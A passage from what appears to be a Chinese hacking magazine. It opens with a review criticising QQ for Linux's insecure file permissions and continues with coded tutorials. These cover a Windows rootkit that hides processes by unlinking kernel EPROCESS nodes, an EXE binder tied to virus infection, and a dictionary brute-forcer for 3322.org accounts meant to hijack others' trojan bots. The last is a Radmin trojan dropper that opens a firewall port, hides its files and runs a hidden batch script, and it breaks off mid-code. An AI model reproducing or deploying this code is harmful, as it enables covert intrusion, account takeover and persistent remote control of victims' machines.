再仔细看一下安装的文件，其中 2 个可执行文件的权限都是 777，讽刺的是，它的图标 png 文件的权限居然是正确的（可以看下面的图 13）！腾讯为什么要这样做？无心的还是故意的？后来有听某人说是为了方便升级，更搞笑的说法是，腾讯真的把 Linux 的软件当 Windows 来做了！我相信腾讯招到的至少也是懂得 Linux 软件模式的程序员吧？

发现这个问题后，我就到社区逛了逛想发个帖，发现早在程序出来几小时后就有人已经发现了这个问题，但这个问题到截稿的时候还没见到官方的说明，也没有修复这个问题，深深地费解……

于是我立刻进 OpenSUSE（在 Ubuntu 下安装 rpm 不能说明问题，因为转换过了），看一下 rpm 版的情况，如图 13 所示，可以看到权限设置跟 DEB 包是一样的，也是有相当大的问题啊。绿色版的权限是没有问题的，这很好理解，是你自己解压缩的嘛，但还是要注意你的配置文件哦。

这里建议，如果你不是一个人使用电脑，那对 QQ 可要留心了。强烈建议管理员在安装好 QQ 之后修改一下权限，在终端中以 root 权限执行：chmod -R go-w /usr/bin/QQ /usr/share/applications/QQ.desktop /usr/share/apps/Tencent /usr/share/doc/linuxqq，普通用户也要更改一下自己配置文件的权限，用命令“chmod 700 -R ~/.Tencent”（就保留执行权限吧，反正没影响）。并且这里也强烈建议，如果不是桌面应用，也不要安装 QQ 了。放下前面提到的安全问题不说，毕竟 QQ 是闭源的，居然对组件版本要求那么高，难道只是因为可换皮肤？很令我费解。反正我的做法是删之而后快。

虽然说 QQ for Linux 有不少问题，但总的来说已经不错了，等待了这么久，不想去期盼 Linux QQ 会多么地好用，而是希望有一天在 QQ for Linux 的 deb 上出现 GPL，希望腾讯能真正融入 Linux 的大家庭，这才是最好的结局。

> **编辑点评：**
> 阅毕此文，感觉腾讯这次真是不是太水了？一个 Linux QQ 做得就像个业余产品，建议还是继续征战 Windows 平台这个很有“钱途”的战场吧！

# 快码加编

**栏首语**

8 月一过貌似就入秋了，感受了几场秋雨，然后……感冒了！还是很怀念 8 月的骄阳，那个热得 YAO MING，只好在家里的床上翻过去翻过来，累哦！一天要去两次浴室，洗澡一次，冲凉一次，白天一次，晚上一次，总之……累哦，热哦！

# Windows 下 RootKit 编写初步（四）

## ——操作内核对象（隐藏进程）

图书轴 @ [电子科技大学凝聚网络安全工作室]

- 从本文您可以学到：
- 了解内核对象
- 用驱动程序调用内核对象

今天我们将讨论 RootKit 的核心技术之一——操作内核对象。Windows 系统是使用面向对象的思想编写的，进程、文件、设备等在操作系统的较高层次上都被抽象为一个或一组对象。换句话说，我们平时在 Windows 中的任何操作都最终被转化为对一个或一组对象的操作。今天的任务——隐藏进程，亦是如此！

与传统的 Hook API 之类的手段相比，使用操作内核对象的方式在技术上要稍显复杂一些，但其隐蔽性、高效性非传统技术可比。Hook API 需要把每个进程中所有查询进程的 API 都钩住，因为修改了 Kernel32 或者 NTDLL 中的字节码，很容易被发现；同时由于增加了额外的代码，使得系统效率降低，容易引起怀疑。而操作进程对象，则是直接把进程对象隐藏，无需修改 API 和额外的过滤代码！


牛人们在逆向 Windows 后告诉我们：在系统内部，进程对象是以双向链表的形式存放的。那么，我们的想法很简单，就是想办法把表示特定进程的链表节点删除或者从链表中断开。看到这里，有人会说：把进程的节点删除或者断开，一般的方法的确是找不到进程，但麻烦的是，系统也找不到进程了！这下进程所属的代码还会被执行吗？

大家可以去查看 MSDN 或者《核编》，微软很明确地告诉我们

## 利用Windows的调度程序隐藏进程

Windows 的调度程序基于线程进行 CPU 时间分配，而非我们通常认为的进程！这就是说：如果能把进程的节点从链表中断开，进程仍然会正常地执行！

接下来的问题是，如何才能找到指定的进程呢？有个大概的思路，就是随便找一个进程节点，通过遍历进程链表找到指定进程。于是问题转化成为找到任意一个进程的节点，以及指向前一节点或者后一节点的指针在此对象中的偏移。

对于第一个问题，微软已经帮我们解决了。在 ntoskrnl.exe 中，微软为我们导出了一个驱动下可用的 API——PsGetCurrentProcess()。这个 API 的作用就是返回指向当前进程节点的指针！有兴趣的话，可以去翻翻 NTDDK.H 里面对这个函数的声明，这个函数将返回一个指向 EPROCESS 结构体的指针。

那么指向下一个节点的指针在哪里呢？在 Windows 内核中，凡是涉及双向链表的结构，都使用了一个称为 LIST_ENTRY 的结构体来实现。其定义如下：

```c
typedef struct LIST_ENTRY {
    PLIST_ENTRY Flink;
    PLIST_ENTRY Blink;
} LIST_ENTRY, *PLIST_ENTRY;
```

其中 Flink 是指向前一节点中的 LIST_ENTRY 结构的指针，Blink 则指向后一节点。目前，在 WinXP SP0-SP3、Win2003 的 EPROCESS 结构中，LIST_ENTRY 的偏移量为 0x88。注意：随着 SP 和系统的不同，会有不同的偏移量。

现在我们可以完成隐藏进程的任务了，关键代码如下：

```c
unsigned long FindProcess(int pid)
{
    // 省略一些变量定义代码
    LIST_ENTRY *plist_active_procs;

    // 找到当前进程的节点
    eproc = (unsigned long)PsGetCurrentProcess();
    current_pid = start_pid = *((int *)(eproc + 0x84)); // xpsp0-sp3 都是 0x84 没有变

    // 省略了循环代码，下面的代码完成查找下一节点
    plist_active_procs = (LIST_ENTRY *)(eproc + 0x88); // xpsp0-sp3 都是 0x88 没有变
    eproc = (unsigned long)(plist_active_procs->Flink); // eproc 指向下一节点的 PLIST_ENTRY 结构
    eproc = eproc - 0x88; // 指向 EPROCESS 结构体
    current_pid = *((int *)(eproc + 0x84)); // PID 在 EPROCESS 结构体中的偏移是 0x84，就是 LIST_ENTRY 的前一个成员

    // ..........
}

ULONG HideProcess(int pid)
{
    unsigned long eproc;
    PLIST_ENTRY plist_active_procs;

    eproc = FindProcess(pid); // 找到指定 PID 的进程
    // .......省略一些代码
    plist_active_procs = (LIST_ENTRY *)(eproc + 0x88);
    plist_active_procs->Blink->Flink = plist_active_procs->Flink;
    plist_active_procs->Flink->Blink = plist_active_procs->Blink; // 把节点从链表中断开
    plist_active_procs->Flink = (LIST_ENTRY *)&(plist_active_procs->Flink);
    plist_active_procs->Blink = (LIST_ENTRY *)&(plist_active_procs->Flink); // 把目标节点的 LIST_ENTRY 结构体指向自己
    return pid;
}
```

有人会有疑问，为什么要把目标进程节点的 LIST_ENTRY 指向自己？其实也可以不必这么做，只要我们能保证系统不关机，目标进程不退出。想想这是为什么呢？

当一个进程退出的时候，操作系统要完成的工作是先把进程节点从链表中删除，接着把前一节点和后一节点重新连接起来。发现了吗？操作系统怎么知道前一节点和后一节点在哪里呢？当然是通过当前节点的 LIST_ENTRY！

我们把进程的节点从链表中断开，操作系统对链表的维护就再也不会涉及被我们断开的节点。当被隐藏的进程要退出的时候，操作系统会试着去访问可能已经不存在的进程节点，接着就蓝屏！所以，最安全的做法是让 LIST_ENTRY 指向自己。

上期的代码大家应该都拿到了，do_command_writefile.h 文件中的 my_hide_process() 函数完成对输入十六进制的 PID 检验，并调用 HideProcess()，关键代码如下：

```c
__asm {
    CLI // dissable interrupt
    MOV EAX, CR0 // move CR0 register into EAX
    AND EAX, NOT 10000H // disable WP bit
    MOV CR0, EAX // write register back
}
if (HideProcess(pid) == 0) {
    DbgPrint("Hide failed maybe %d doesn't exist or it's already hidden.", pid);
}
__asm {
    MOV EAX, CR0 // move CR0 register into EAX
    OR EAX, 10000H // enable WP bit
    MOV CR0, EAX // write register back
    STI // enable interrupt
}
```

试问，那两段汇编的作用是什么？答案呼之欲出：禁用 CPU 中断！这可不是多此一举！Windows 是一个抢占式的操作系统，我们的驱动程序在执行过程中，可以被任何事情打断，因为这个驱动的“等级”不够高（之所以不创建一个“等级”足够高的驱动，是因为那样能使用的 API 会非常少）。在驱动被打断期间，可以发生很多事情，比如进程的退出、系统待机、内存不足等等。这些事情的发生，都有可能使得系统上的进程链表发生变化，有些变化不仅仅是节点的增加和减少，还会引起内存不足，甚至有可能使操作系统把链表上的内容临时存到硬盘上！此时对链表的访问只有一个结果——蓝屏！

现在我请大家再思考一个问题：禁用了 CPU 中断就能保证在驱动执行期间，访问的数据就一定都是安全的吗？回答是否定的。想一想，上面的代码禁用的是什么中断？是执行驱动程序 CPU 的中断！对于多 CPU 的系统，只禁用当前 CPU 的中断就能保证其他 CPU 不访问我们所用的数据吗？当然，Windows 下多 CPU 的机制特殊性决定了这样的情况极少发生，具体的讨论过于庞杂，这里就不展开了。

隐藏进程的内容就这么多，大家回去敲敲打打应该都能写出自己的代码来。操作内核对象除了可以隐藏进程，还可以做很多事，比如隐藏设备、硬件、用户，甚至对应用程序通信的截取、直接操作网卡进行通信等等……这次 RootKit 的系列文章就到这里吧，希望以后有机会可以给大家献上更好的文章！

# 编辑点评

RootKit 这一系列文章为我们揭开了其神秘的面纱，让我们充分了解了运行机制，带着大家一起编写、打造自己的 RootKit，这不再是梦想了，就看你悟性有多高了！

定价：36元

## 利用文件捆绑实现EXE文件图标修改

冰海／[LOVEGN]

从本文您可以学到：

- 1、了解文件捆绑的原理并实现
- 2、实现通过捆绑程序修改 EXE 文件图标

近来无事，想起了前段时间风靡一时的“熊猫烧香”病毒，它几乎可以修改电脑上所有 EXE 文件的图标。其实 EXE 文件图标的修改在网上的教程有很多，步骤基本都是先获取图标资源的句柄，然后用 EnumResourceNames 函数更改图标。今天我用另一种方法来实现修改图标，先介绍个小发现：在命令行下执行 copy /b a.exe+b.exe c.exe，将 a.exe 和 b.exe 文件合并，合并后的 c.exe 的图标就是 a.exe 文件的图标。

相信大家应该知道我说的方法了，其实 a.exe 文件的图标就是我们要修改后的图标，b.exe 就是待修改的文件，然后将两个文件捆绑起来，这样就实现了 EXE 文件图标的修改。但大家都知道，EXE 是可执行文件，合并后我们当然希望它们都能执行。不过通过 copy 方法合并的 EXE 文件在实际操作中，运行 c.exe 时只有 a.exe 可以正常运行，而 b.exe 则不能运行。

但这难不到我们，由于 a.exe 可以执行，那么就可以通过设计 a.exe 的功能来实现让 b.exe 运行起来。a.exe 文件要实现的功能是：判断文件自身是否是绑定文件，如果是，则分解出被绑定的文件，并同时运行它；如果不是，则将 b.exe 文件绑定到自己文件末尾，实现图标的改变。

有了思路，我们就可以按照功能来一步一步编写自己的程序。为了实现分解功能，我们需要定义个结构体来保存 b.exe 的文件信息，相关代码如下：

```c
typedef struct _FILE_INFO
{
    CString cFileNamehost; // 宿主文件，可以理解成我们刚刚说的 a.exe
    CString cFileNamebind; // 待绑定的文件，可以理解成我们刚刚说的 b.exe
    DWORD dFileSizehost;   // 宿主文件的大小
    DWORD dFileSizebind;   // 待绑定文件的大小
    DWORD dFileSize;       // 绑定后文件的大小
} FILE_INFO;

DWORD mylove = 0x5959574C; // 绑定后文件的标记，大家随便设，这里的 16 进制代表 WLYY（我爱叶叶）
```

下面我们来实现绑定文件函数 BOOL BindFile(CString BindFileName)，这里用了个临时文件 temp.exe 作为绑定后的文件，生成后再将其覆盖掉待绑定的文件 BindFileName，最后删除 temp.exe 文件。相关代码如下：

```c
BOOL CLyyDlg::BindFile(CString BindFileName)
{
    struct _stat ST;
    GetModuleFileName(NULL, myname, sizeof(myname));
    myfileinfo.cFileNamehost = myname;
    myfileinfo.cFileNamebind = BindFileName;
    CString strFileTemp = "temp.exe";
    FILE *fpread1, *fpread2, *fpwrite;

    _stat(myname, &ST);
    myfileinfo.dFileSizehost = ST.st_size;
    _stat(BindFileName, &ST);
    myfileinfo.dFileSizebind = ST.st_size;

    myfileinfo.dFileSize = myfileinfo.dFileSizehost + myfileinfo.dFileSizebind + sizeof(myfileinfo);

    if ((fpread1 = fopen(myname, "rb")) == NULL)
        return false;
    if ((fpread2 = fopen(BindFileName, "rb")) == NULL)
        return false;
    if ((fpwrite = fopen(strFileTemp, "wb")) == NULL)
        return false;

    fseek(fpread1, 0, SEEK_SET);
    fseek(fpread2, 0, SEEK_SET);
    fseek(fpwrite, 0, SEEK_SET);

    int c;
    while ((c = fgetc(fpread1)) != EOF)
    {
        fputc(c, fpwrite);
    }
    while ((c = fgetc(fpread2)) != EOF)
    {
        fputc(c, fpwrite);
    }

    fwrite(&myfileinfo, 1, sizeof(myfileinfo), fpwrite);
    fwrite(&mylove, 1, sizeof(mylove), fpwrite); // 在文件末尾加上自己的标志

    fclose(fpread1);
    fclose(fpread2);
    fclose(fpwrite);

    CopyFile(strFileTemp, BindFileName, 0); // 注意：第三个参数 0 表示覆盖
    DeleteFile(strFileTemp);
    return true;
}
```

绑定文件的代码已经实现，下面我们接着来实现分解文件，同时使分解后的文件可以运行。方法是通过读取文件的末尾处附近的 myfileinfo 信息，获取相关信息把被绑定的文件分解出来。这里用临时文件 temp.exe 来存储被绑定的文件，并用 CreateProcess 来运行它。为了更具迷惑性，我们调用 WaitForSingleObject 函数，当程序运行结束后，删除临时文件。相关代码如下：

```c
BOOL CLyyDlg::UnBind_Run()
{
    FILE *myfile;
    FILE *out;
    struct _stat ST;
    CString tempfile = "c:\\windows\\temp.exe";
    GetModuleFileName(NULL, myname, sizeof(myname));
    _stat(myname, &ST);

    DWORD off_set = ST.st_size - sizeof(myfileinfo) - sizeof(mylove);
    myfile = fopen(myname, "rb");
    out = fopen(tempfile, "wb");

    fseek(myfile, off_set, SEEK_SET);
    fread(&myfileinfo, 1, sizeof(myfileinfo), myfile);

    DWORD off_set_bind = myfileinfo.dFileSizehost;
    fseek(myfile, off_set_bind, SEEK_SET);

    int c;
    DWORD nCount = 0;
    while ((c = fgetc(myfile)) != EOF)
    {
        fputc(c, out);
        nCount++;
        if (nCount == myfileinfo.dFileSizebind) break;
    }
    fclose(myfile);
    fclose(out);

    STARTUPINFO si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);

    PROCESS_INFORMATION ProcessInformation;

    CreateProcess(tempfile, NULL, NULL, NULL, FALSE,
        NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &ProcessInformation);
    WaitForSingleObject(ProcessInformation.hProcess, INFINITE);
    DeleteFile(tempfile);

    return true;
}
```

至此程序的功能基本都实现了，编译生成 lyy.exe。在这里，lyy.exe 其实就是我所说的 a.exe，为了调试，我在 lyy.exe 加了个绑定按钮，如图 1 所示。

点击绑定按钮后，1.exe 的图标变成了我们自己的图标，如图 2 所示。

然后我们运行被绑定的 1.exe 文件，看看原来被绑定的文件能不能正常运行。这时先弹出一个提示对话框，点击确定后，程序运行成功，如图 3 所示。

原来的文件也正常运行起来，我们的目的达到了，文章到此结束。这其实也是病毒感染的一种常用方式——捆绑，本文只介绍了静态捆绑的知识，并没有涉及到 PE 文件的结构，希望下次有机会可以给大家带来动态捆绑的文章。

> [本文作者提到的利用文件捆绑实现 EXE 文件图标修改的相关代码及程序都已经收入在光盘中]

# 编辑点评

其实，对于病毒来说并不应该这么易于“表现”。试想一下，如果“熊猫烧香”不修改图标，相信其潜伏力、破坏力都要大很多，不是吗？！

## 3322密码爆破工具编写

无敌小龙（张博）

从本文你可以学到：

- 1、获取动态域名直接控制反弹木马
- 2、使用 WINSOCK EXPERT 分析数据包
- 3、利用 VB 编程伪造数据包

## 原理分析

使用过反弹远程控制软件的黑友们也一定使用过 3322.ORG 的动态域名吧？而且很多反弹木马也是使用 3322 来配置服务端的。于是，笔者突然有种“邪恶”的念头，如果对方配置的木马文件没有使用密码，那么如果我知道了他的 3322 登录密码，岂不是可以把他的肉鸡据为己有？！而前提只是要知道对方的用户名而已！

有想法不如实干，首先打开 3322.ORG 的登录页面，也就是 WWW.3322.ORG，然后请出我们的嗅探王牌 WINSOCK EXPERT，选择其主界面中的打开按钮，在弹出的“选择监听的程序”对话框中选择一个包含有 3322 页面的 IE 进程，如图 1 所示。

现在单击确定按钮，WINSOCK EXPERT 就开始监听数据包了。来到 3322 登录页面，输入一个错误的密码，比如 123456，可以看到 IE 发送的数据包如图 2 所示。数据为：HTTP 协议头 + 要发送的数据，要发送的数据中已经含有密码字符串 123456。

然后单击其中的 WSA 列，可以看到服务器返回的数据包，如图 3 所示。

其中，返回数据如下。这里之所以把返回的数据包信息提取出来，是希望读者朋友能够对比出发送错误密码和发送正确密码所返回的数据包有什么不同。

```http
HTTP/1.0 200 OK
Date: Fri, 13 Jun 2008 14:44:15 GMT
Server: Apache/1.3.39 (Unix) Resin/3.0.25
Content-Length: 5366
Content-Type: text/html; charset=GBK
X-Cache: MISS from none
Via: 1.0 none:80 (squid/2.6.STABLE17)
Connection: keep-alive
```现在，输入正确的密码：password，如图4所示，可以看到发送的数据包，信息如下：


## 图4 IE发送正确密码的数据

```http
POST /dyndns/login HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Referer: http://www.3322.org/dyndns/mainhome
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.3322.org
Content-Length: 73
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: username=xiaolong1212; JSESSIONID=abc9Gk2TVy2eq7WZXecQr

action=login&username=xiaolong1212&password=password&Submit=%B5%C7%BC%BC
```

同时单击 WSA 列，可以看到服务器返回的数据包，如图5所示，其中服务器返回的数据如下：


## 图5 服务器返回正确密码的数据包

```http
HTTP/1.0 200 OK
Date: Fri, 13 Jun 2008 14:46:22 GMT
Server: Apache/1.3.39 (Unix) Resin/3.0.25
Content-Length: 14457
Set-Cookie: username=xiaolong1212; expires=Sat, 13-Jun-2009 14:46:22 GMT
Content-Type: text/html;charset=GBK
X-Cache: MISS from none
Via: 1.0 none:80 (squid/2.6.STABLE17)
Connection: keep-alive
```

通过对两次发送和接收的数据包信息进行对比，可以总结出规律：

- 首先，客户端（也就是浏览器）向服务器发送数据包，其中最核心的数据包为以下四句，这里是对发送的数据包做了精简，而且发送以下四句和发送截取到的所有数据包的效果是相同的。但是，以下四句不能再做精简，否则发送的数据包就是缺失和错误的。

```text
POST /dyndns/login HTTP/1.1 HTTP协议头
Content-Type: application/x-www-form-urlencoded 内容形式
Host: www.3322.org 主机名称
Content-Length: 100 数据包长度
```

然后，要发送相应的数据如下，这里截取了发送正确密码的数据包：

数据包：

```text
action=login&username=xiaolong1212&password=password&Submit=%B5%C7%BC%BC
```

最后，服务器返回信息，在密码错误时返回的信息中，内容长度是“Content-Length: 5366”；而在密码正确时返回的信息中，内容长度是“Content-Length: 14457”。

这里就是本程序编写的重点，通过发送不同的密码，然后对返回的数据包长度作出判断，如果返回的数据包长度是5366，那么说明密码是错误的；如果返回的数据包长度是14457，那么说明我们的密码是正确的。

现在就得出了3322密码暴力破解软件的编程流程：

- 1. 首先，使用 winsock 模拟 IE 浏览器连接 3322.ORG 服务器。连接 WEB 服务器可以使用 winsock 的 connect 方法；
- 2. 其次，在连接成功后模拟发送数据包。发送数据包可以使用 winsock 控件的 senddata 方法；
- 3. 最后，等待服务器数据包的返回，并且取回服务器返回的数据包，取回数据包可以使用 winsock 的 getdata 方法。接着对取回的数据包长度进行判断，如果长度是5366说明密码错误，那么就关闭 winsock 进行下轮扫描，也就是再次发送包含密码的数据包；如果返回的数据包长度是14457，那么说明我们的密码是正确的，就关闭 winsock，然后给出扫描结果。

# 代码介绍

之前介绍了编写的流程，这里首先给出程序界面。我们需要用到4个按钮控件、2个文本框控件、2个 LISTBOX 控件、1个对话框控件和1个 winsock 控件，摆放好各个控件的位置，如图6所示。

接下来就可以开始编写程序了。其中 winsock 控件和对话框控件默认不在控件栏上面，要添加这两个控件的方法如下：


## 图6 程序界面及使用控件

首先选择“工具”菜单，然后找到其“部件”子菜单，单击后弹出“部件”对话框。在“部件”对话框中选择“控件”标签项，分别选择 common dialog control 和 winsock common control，就把对话框控件和 winsock 控件添加到部件栏目上了，如图7所示。

本程序使用到了一个窗体模块和一个标准模块，程序的结构如图8所示。

其中，窗体模块代码如下：

```vb
Dim i As Integer '定义当前要扫描的变量索引
Private Sub Command1_Click()
Dim a As String '载入字典文件
CommonDialog1.ShowOpen

If CommonDialog1.FileName <> "" Then '如果文件名称不为空
    Open CommonDialog1.FileName For Input As #1 '打开文件进行读操作
    Do While Not EOF(1) '如果没有到文件末尾
        Line Input #1, a '读入一行
        List1.AddItem a '把读入的数据显示到列表中
    Loop
    Close '关闭文件
Else
    MsgBox "Error" '如果文件名为空，就弹出错误对话框
    Exit Sub '退出子程序
End If
End Sub

Private Sub Command2_Click()
Dim host As String '启动第一轮的扫描
i = 0 '把扫描的密码索引赋值为0
Winsock1.Close '首先关闭winsock连接

List2.Clear
host = split_host(Text1.Text) '这里调用了标准模块中定义的函数，作用是分割出主机名
Winsock1.Connect host, 80 '连接目标主机，其实就是连接www.3322.org

ProgressBar1.Max = List1.ListCount '设置进度条的属性值
ProgressBar1.Min = 0
ProgressBar1.Value = i
End Sub

Private Sub Command3_Click()
Winsock1.Close '关闭扫描
End Sub

Private Sub Command5_Click()
List1.Clear '清空列表框
End Sub

Private Sub Form_Load()
Call list_load '载入字典
Call screen_middle(Form1) '让窗口在中间
End Sub

Private Sub Winsock1_Connect()
Dim data1 As String, data2 As String
Dim sum_data As String

'组装要发送的数据
data2 = "action=login&username=" + Text2.Text + "&password=" + _
List1.List(i) + "&Submit=%B5%C7+%C2%BC" + vbCrLf
'MsgBox data2

'组装HTTP文件头数据，这里只使用到了四句
data1 = "POST /dyndns/login HTTP/1.1" + vbCrLf
data1 = data1 + "Content-Type: application/x-www-form-urlencoded" + vbCrLf
data1 = data1 + "Host: " + split_host(Text1.Text) + vbCrLf
data1 = data1 + "Content-Length: " + CStr(Len(data2)) + vbCrLf + vbCrLf
'MsgBox data1

sum_data = data1 + data2
'MsgBox sum_data
'发送数据
Winsock1.SendData sum_data + vbCrLf '用回车结尾表示数据发送完毕
End Sub

Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
Dim a As String
Dim data1 As String, data2 As String
Dim sum_data As String

Winsock1.GetData a '获得返回的信息
'MsgBox a

If InStr(1, a, "Content-Length: 14457") > 0 Then '如果密码正确
    'MsgBox a + "=========================="
    List2.AddItem "Password is : " + List1.List(i)
    MsgBox "密码为:" + List1.List(i)
    ProgressBar1.Value = 0 '进度条进度置0
    Winsock1.Close
ElseIf InStr(1, a, "Content-Length: 5366") > 0 Then '如果密码错误，变量i加1，然后开启下一轮的扫描
    'MsgBox a
    List2.AddItem "Password Wrong : " + List1.List(i)
    i = i + 1
    ProgressBar1.Value = i '进度条增加一个

    Winsock1.Close
    host = split_host(Text1.Text)
    Winsock1.Connect host, 80 '开启下一轮扫描
End If
End Sub

Private Sub Winsock1_Error(ByVal Number As Integer, Description As String, _
ByVal Scode As Long, ByVal Source As String, ByVal HelpFile As String, ByVal _
HelpContext As Long, CancelDisplay As Boolean)
Winsock1.Close
MsgBox "winsock error:" + Description '弹出出错的信息描述
End Sub
```


图7 添加 common dialog control 及 winsock common control 控件


图8 程序结构

同时，本程序还使用到了一个标准模块，其相关代码如下。标准模块中 screen_middle 子程序的主要作用就是设置程序的界面在正中央，而 split_host 函数用于分割出主机名称，list_load 子程序用于加载默认的密码列表。

```vb
Sub screen_middle(f As Form) '让指定的窗体在屏幕的中央
    f.Left = (Screen.Width - f.Width) / 2
    f.Top = (Screen.Height - f.Height) / 2
End Sub

Function split_host(str1 As String) '分割出主机名称
Dim pos1 As Integer

pos1 = InStr(1, str1, "/")
split_host = Mid(str1, 1, pos1 - 1)
End Function

Sub list_load() '载入默认的密码
Form1.List1.AddItem "123" '为列表中添加一个密码
Form1.List1.AddItem "123456"
Form1.List1.AddItem "123456789"
Form1.List1.AddItem "456"
Form1.List1.AddItem "admin1"
Form1.List1.AddItem "admin2"
Form1.List1.AddItem "admin3"
Form1.List1.AddItem "admin123"
Form1.List1.AddItem "admin"
Form1.List1.AddItem "1234567890"
Form1.List1.AddItem "password"
Form1.List1.AddItem "a"
Form1.List1.AddItem "ab"
Form1.List1.AddItem "abc"
End Sub
```

# 程序运行

编写完代码后，F5运行程序，单击其中的载入字典按钮，弹出“打开”对话框，从中选择一个字典文件，如图9所示。

选择好了字典文件后，就可以单击“开始探测”按钮对指定用户的密码进行扫描了，如图10所示，最后扫描得出账户 xiaolong1212 的密码为 password。

现在，如果得到对方3322账户名称，使用此款软件暴力破解出密码后，就可以把对方的动态域名 IP 地址绑定为我们自己的 IP 地址，当对方的肉鸡上线后就会主动连接我们的木马控制端，比如灰鸽子。这样我们就可以不劳而获得到对方大量的肉鸡了。


[本文作者提到的3322密码爆破工具相关代码及程序都已经收入在光盘中]

## 编辑点评：

想法不错，很多时候这样的想法往往可以事半功倍。小编我以前也写过一个，不过是针对图书馆的：）

## VC打包自己的Radmin

从本文您可以学到：

- VC打包Radmin


# 引言

网上有很多关于制作 Radmin 木马的文章和教程，其方法大多是将程序打包成自解压文件，用一个脚本来启动 Radmin 程序。今天我们用 VC 来实现这个程序，首先说一下思路：

- 1、配置 radmin 的端口、密码等信息，然后导出注册表信息 radmin.reg；
- 2、将 r_server.exe、AdmDll.dll、raddrv.dll、radmin.reg 几个文件添加为工程的资源；
- 3、释放那几个文件资源；
- 4、写穿透本地防火墙的文件 Firewall.reg；
- 5、导入 radmin.reg 和 Firewall.reg 注册表信息，并将释放的几个文件设置为系统、隐藏、只读，然后删除注册表文件；
- 6、将 radmin 注册为服务，最后启动。

OK，下面我们开工！配置 radmin 以及 r_server.exe、AdmDll.dll、raddrv.dll、radmin.reg 等的免杀工作我这里就不多说，本文主要讲解用 VC 来实现上述 2-6 的功能。

# 将 r_server.exe、AdmDll.dll、raddrv.dll、radmin.reg 几个文件添加为工程的资源


点击“插入”，如图1所示。然后选择“资源”，在弹出的“插入资源”对话框中点击“自定义”，在弹出的对话框中写入“bin”，如图2所示。

然后点“插入”→“资源”，在弹出的“插入资源”对话框中点击“引入”，选择 r_server.exe。接着在弹出的对话框中选择“BIN”，点确定，如图3所示。

使用同样的方法，我们将 AdmDll.dll、raddrv.dll、radmin.reg 几个文件也插入到程序中。然后点击“保存”，保存时跳出“保存为”窗口，将资源文件 Script.rc 文件保存到工程目录下。然后还需要在“File”文件选项卡中将该资源文件加入 Resource Files，如图4所示。

最后我们需要在工程的顶部引用资源信息的头文件“resource.h”，最好将那些文件资源的 ID 号修改一下，便于识别。这里我改为 IDR_BIN_SERVER、IDR_BIN_ADMDLL、IDR_BIN_RADDRV、IDR_BIN_RADMIN。


# 释放文件资源

这一步是将上述几个文件资源释放到指定的位置，以便后面的程序调用，相关代码如下：

```cpp
void ExtractResource()
{
    DWORD dwWritten = 0;
    HMODULE hInstance = ::GetModuleHandle(NULL);
    ///////////释放admdll.dll文件
    HRSRC hSvcExecutableRes = ::FindResource(hInstance,
        MAKEINTRESOURCE(IDR_BIN_ADMDLL), //文件资源ID号
        _T("BIN")); //资源类型
    HGLOBAL hSvcExecutable = ::LoadResource(hInstance,
        hSvcExecutableRes);
    LPVOID pSvcExecutable = ::LockResource(hSvcExecutable);
    if(pSvcExecutable == NULL)
        return;
    DWORD dwSvcExecutableSize = ::SizeofResource(hInstance,
        hSvcExecutableRes);
    TCHAR szSvcExePath[_MAX_PATH];
    strcpy(szSvcExePath,"C:\\WINDOWS\\system32\\AdmDll.dll"); //释放路径
    HANDLE hFileSvcExecutable = CreateFile(szSvcExePath,
        GENERIC_WRITE,0,NULL,CREATE_ALWAYS,
``````cpp
if (hFileSvcExecutable == INVALID_HANDLE_VALUE)
    return;
WriteFile(hFileSvcExecutable, pSvcExecutable, dwSvcExecutableSize,
    &dwWritten, NULL);
CloseHandle(hFileSvcExecutable);
……//继续释放其他文件
}
```

以上是释放 AdmDll.dll 文件的示例代码，释放其余文件只需修改文件 ID 号以及释放路径即可，这里不再赘述。

# 写穿透本地防火墙的文件 Firewall.reg

该 Firewall.reg 文件的代码如下：

```cpp
void BreakFireWall()
{
    CFile f;
    if(!f.Open("c:\\windows\\system32\\Firewall.reg", CFile::
        modeCreate|CFile::modeWrite))
        return;
    CString str = "Windows Registry Editor Version 5.00\r\n";
    str += "[HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\SharedAccess\\Parameters\\FirewallPolicy\\StandardProfile\\GloballyOpenPorts\\List]\r\n";
    str += "\"4899:TCP\"=\"4899:TCP:*:Enabled:Windows RPC Services\"\r\n";
    //4899 是 radmin 的监听端口，可以自己修改
    f.Write(str, str.GetLength());
    f.Close();
}
```

# 导入 radmin.reg 和 Firewall.reg 注册表信息，并将释放的几个文件设置为系统、隐藏、只读，然后删除注册表文件

这里写一个批处理文件完成上述功能，代码如下：

```cpp
void WriteCMD()
{
    CFile f;
    if(!f.Open("c:\\windows\\system32\\cmd.bat", CFile::
        modeCreate|CFile::modeWrite))
        return;
    CString str = "r_server.exe /stop\r\n";
    str += "r_server.exe /silence /uninstall\r\n";//卸载原有的 radmin
    str += "regedit /s c:\\windows\\system32\\radmin.reg\r\n";
    //导入 radmin 注册信息
    str += "regedit /s c:\\windows\\system32\\Firewall.reg\r\n";
    //突破本地防火墙
    str += "attrib +s +h +r c:\\windows\\system32\\r_server.exe\r\n";
    str += "attrib +s +h +r c:\\windows\\system32\\admdll.dll\r\n";
    str += "attrib +s +h +r c:\\windows\\system32\\raddrv.dll\r\n";
    //设置文件属性
    f.Write(str, str.GetLength());
    f.Close();

    PROCESS_INFORMATION pi;
    STARTUPINFO si; //隐藏进程窗口
    DWORD dwExitCode;
    si.cb = sizeof(STARTUPINFO);
    si.lpReserved = NULL;
    si.lpDesktop = NULL;
    si.lpTitle = NULL;
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_HIDE;
    si.cbReserved2 = NULL;
    si.lpReserved2 = NULL;
    BOOL ret = CreateProcess(NULL, "c:\\windows\\system32\\cmd.bat",
        NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
    //等待，直到进程完成为止
    if(ret)
    {
        CloseHandle(pi.hThread);
        WaitForSingleObject(pi.hProcess, INFINITE);
